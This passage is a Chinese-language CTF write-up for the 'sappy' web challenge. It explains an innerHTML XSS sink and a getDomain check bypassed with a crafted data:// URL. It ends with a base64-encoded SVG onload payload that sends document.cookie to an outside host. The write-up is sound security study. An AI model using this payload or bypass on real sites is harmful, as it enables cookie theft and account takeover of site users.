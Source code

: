 他會去 `page.json` 取得對應 page id 的資料並回傳 json

```json
{
  "floating-point": {
    "title": "0.1 + 0.2 != 0.3",
    "html": "Because of the underyling floating point arithmetic, in JavaScript 0.1+0.2 is <b>not</b> equal to 0.3!"
  },
  "document-all": {
    "title": "document.all",
    "html": "document.all is an instance of Object, you can check it. But then: <code>typeof document.all === 'undefined'</code>!"
  },
  "plus-operator": {
    "title": "plus operator",
    "html": "Here's a little riddle: what is the result of <code>[]+{}</code>? It's <code>\"[object Object]\"</code>!"
  },
  "no-lowercase": {
    "title": "no lowercase characters",
    "html": "Do you know it's possible to call arbitrary JS code without using lowercase characters? Here I am calling <code>console.log(1)</code>: <code>[]['\\143\\157\\156\\163\\164\\162\\165\\143\\164\\157\\162']['\\143\\157\\156\\163\\164\\162\\165\\143\\164\\157\\162']('\\143\\157\\156\\163\\157\\154\\145\\56\\154\\157\\147\\50\\61\\51')()    </code>"
  }
}
```

`sap.js` 拿到 page info 以後會直接用 `innerHTML` 把 `json.html` 放進 `output` 裡，這邊會產生 xss

```js
        const json = await resp.json();
        if (typeof json.html === "string") {
          output.innerHTML = json.html;
        }
```

所以我們的目標是要自己架一個網站裡面會嵌入目標網站的 `sap.html` 然後再操作 page info url 去取得有 xss payload 的 page info 讓 `sap.html` 去載入造成 xss，再將自己架的網頁的 url 送給目標的 bot 取得 cookie。

### 解題

這題的重點是要如何繞 `if (h.getDomain() !== "sappy-web.2024.ctfcompetition.com")` 基本上除非 `goog.Uri` 有洞，否則不太可能繞過，但是他沒有限制 `scheme` 只能用 http 或 https，而 fetch 是可以塞 data scheme 的，所以我就可以構造以下 url

`data://sappy-web.2024.ctfcompetition.com/;base64,eyJodG1sIjoiPHN2Zz48c3ZnL29ubG9hZD0nd2luZG93LmxvY2F0aW9uPVwiaHR0cHM6Ly92cG4uY2h1bW15ZG5zLmNvbToyMDAwMC94c3NcIitkb2N1bWVudC5jb29raWUnPiJ9Cg==#`

其中 `data://sappy-web.2024.ctfcompetition.com/` 可以保證 `getDomain` 是 `sappy-web.2024.ctfcompetition.com` 然後 `;base64,` 表示後面的東西要過 base64 decode 接著後面的 base64 就是我們 payload 的 json

```json
{
  "html": "<svg><svg/onload='window.location=\"https://vpn.chummydns.com:20000/xss\"+document.cookie'>"
}
```
